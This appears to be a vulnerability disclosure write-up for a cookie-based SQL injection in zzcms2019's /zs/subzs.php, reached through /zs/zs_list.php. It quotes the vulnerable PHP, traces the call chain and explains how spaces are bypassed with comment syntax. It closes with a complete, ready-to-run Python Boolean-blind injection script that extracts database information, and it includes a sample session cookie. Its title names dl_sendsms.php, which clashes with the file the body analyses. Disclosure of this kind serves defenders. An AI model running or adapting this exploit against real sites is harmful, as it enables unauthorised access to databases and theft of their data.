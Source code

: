 # zzcms2019 SQL injection vulnerability in dl_sendsms.php


Build the test environment locally


This SQL injection vulnerability exists in line 16 of `/zs/subzs.php`, and the key code is:

```php
function showcookiezs($cs){

. . .  . . . 

if (!isset($_COOKIE["zzcmscpid"])){
$str="暂无记录";
}else{
$cpid=$_COOKIE["zzcmscpid"];
	if (strpos($cpid,",")>0){
		$cpid=str_replace(" ","",$cpid);
		$cpid=str_replace("deleted","",$cpid);//cookie会出现deleted的情况
		$sql="select id,proname,img from zzcms_main where id in (".$cpid.")";
	}else{
	checkid($cpid);
	$sql="select id,proname,img from zzcms_main where id='$cpid' ";
	}
$n=1;
$str="<table width=100% border=0 cellspacing=0 cellpadding=5><tr>";	
$rs=query($sql);
while($row=fetch_array($rs)){
	. . .  . . .
}
$str=$str. "</table>";
$str=$str. "<div style='text-align:center;font-weight:bold'><a href='/zs/zs_list.php?action=ClearCookies'>清空查看记录</a></div>";
}

return $str;
}
```

In `"where id in (".$cpid.")"`, concatenate the cookie's zzcmscpid into the SQL statement without escaping single quotes

Trace back the code to get the calling sequence of related functions, showlabel -> fixed -> showcookiezs-> injection

But the showlabel function can be called from multiple places

```php
function showlabel($str){
global $b;//zsshow需要从zs/class.php获取$b；zxshow从s/class.php获取$b；
checkver($str);
//固定标签=========================
$channels=array('ad','zs','dl','zx','pp','job','zh','announce','cookiezs','zsclass','keyword','province','sitecount');
foreach ($channels as $value) {
if (strpos($str,"{#show".$value.":")!==false){
$n=count(explode("{#show".$value.":",$str));//循环之前取值
	for ($i=1;$i<$n;$i++){ 
	$cs=strbetween($str,"{#show".$value.":","}");
	if ($cs<>''){$str=str_replace("{#show".$value.":".$cs."}",fixed($cs,$value),$str);}	//$cs直接做为一个整体字符串参数传入，调用时再转成数组遍历每项值
	}	
}
}
```

From the function definition, it can be seen that the `$str` variable must contain "{#showcookiezs", which means that "{#showcookiezs" exists in the template content.

These are the template files that satisfy the criteria

![](https://i.loli.net/2019/09/20/FcoH4PXdDOClxB1.png)

So you can finally inject it through `/zs/zs_list.php`, because the Spaces in `/zs/subzs.php` are filtered and bypassed by replacing the Spaces with `/**/`


Condition: the backend data of the test environment is empty, you must add the data first, register the account of the company type and then send it to the user center -> for investment promotion

![](https://i.loli.net/2019/09/20/IxOyuH1alYveVko.png)

The id of the newly added data starts at 1 (payload and exp can be modified depending on the actual situation), and the payload test page is used to return the results

![](https://i.loli.net/2019/09/20/eqfGFLd8VPcNyBH.png)


Return normal, according to the page return results are not the same (F12 source code found different) Boolean blind injection, exp is as follows

```python
#coding: utf-8
import requests
import string

url = 'http://{}/zs/zs_list.php'

#header 头，自己根据实际环境做修改
headers = {
'Host':'{}',
'User-Agent':'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:68.0) Gecko/20100101 Firefox/68.0',
'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
'Accept-Language':'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
'Accept-Encoding':'gzip, deflate',
'Content-Type':'application/x-www-form-urlencoded',
'Connection':'keep-alive',
'Cookie':'{}'
}

def Sqli(host,sql):
	global url
	global headers
	url = url.format(host)
	sqli = "ascii(substr(({}),{},1)))={}"
	sqli_2 = "0,(if((({}),1,0)))#"
	res_data = ""
	s = requests.session()
	i = 1
	while 1:
		tmp_data = res_data
		for c in string.printable:
			tmp_header = headers['Cookie']
			sqli_data = sqli_2.format(sqli.format(sql,str(i),ord(c)))
			sqli_data = sqli_data.replace(' ','/**/')
			headers['Cookie'] = headers['Cookie'] + "; zzcmscpid=" + sqli_data
			res = s.get(url, headers=headers)
			if "onload='resizeimg(60,60,this)'" in res.text: #自己根据实际环境做修改
				headers['Cookie'] = tmp_header
				res_data += c
				print (res_data)
				break
			headers['Cookie'] = tmp_header
		i += 1
		if tmp_data == res_data:
			print ('完成')
			return 

if __name__ == "__main__":
	#设置 host 地址
	host = "127.0.0.1:9000"
	#设置用户 cookie
	user_cookie = "PHPSESSID=89m7nn9g388n5il12dde5cb9kp; UserName=test; PassWord=343b1c4a3ea721b2d640fc8700db0f36"
	sql = "select group_concat(user(),version(),@@version_compile_os)"
	headers['Host'] = headers['Host'].format(host)
	headers['Cookie'] = headers['Cookie'].format(user_cookie)
	Sqli(host,sql)
```

exp 运行结果

![](https://i.loli.net/2019/09/20/qlifZa7cxFCjHES.png)